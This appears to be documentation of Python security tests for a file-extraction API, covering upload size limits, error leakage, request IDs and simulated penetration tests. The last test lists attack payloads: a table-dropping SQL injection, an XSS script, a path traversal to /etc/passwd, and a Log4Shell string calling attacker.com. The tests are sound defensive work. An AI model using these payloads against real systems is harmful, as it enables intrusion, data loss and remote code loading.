 ```python
        """Test file size limits for DoS protection"""
        # Create file larger than 10MB limit
        oversized_content = b"A" * (11 * 1024 * 1024)
        files = {"file": ("large.pdf", oversized_content, "application/pdf")}
        
        response = self.client.post("/extract", files=files)
        
        assert response.status_code == 400
        assert "File too large" in response.json()["error"]
    
    def test_error_information_disclosure(self):
        """Ensure errors don't leak sensitive information"""
        # Test with invalid file to trigger error
        files = {"file": ("test.txt", b"plain text", "text/plain")}
        response = self.client.post("/extract", files=files)
        
        error_response = response.json()
        
        # Error should not contain sensitive paths, API keys, etc.
        assert "api_key" not in str(error_response).lower()
        assert "/home/" not in str(error_response)
        assert "password" not in str(error_response).lower()
    
    def test_request_id_tracking(self):
        """Test request correlation for audit trails"""
        response = self.client.get("/health")
        
        # Should include request ID in headers
        assert "X-Request-ID" in response.headers
        
        # Request ID should be valid UUID format
        import uuid
        request_id = response.headers["X-Request-ID"]
        uuid.UUID(request_id)  # Will raise if invalid UUID
```

### Penetration Testing

```python
# tests/test_penetration.py
class TestPenetrationScenarios:
    """Simulated penetration testing scenarios"""
    
    def test_injection_attempts(self):
        """Test various injection attack vectors"""
        injection_payloads = [
            "'; DROP TABLE users; --",
            "<script>alert('xss')</script>",
            "../../../etc/passwd",
            "${jndi:ldap://attacker.com/evil}"
        ]
        
        for payload in injection_payloads:
            # Test injection in file content
            files = {"file": ("test.pdf", payload.encode(), "application/pdf")}
            response = self.client.post("/extract", files=files)
            
            # Should handle safely without execution
            assert response.status_code in [400, 500]  # Rejected or safely handled
            
            # Response should not contain payload
            assert payload not in response.text
```
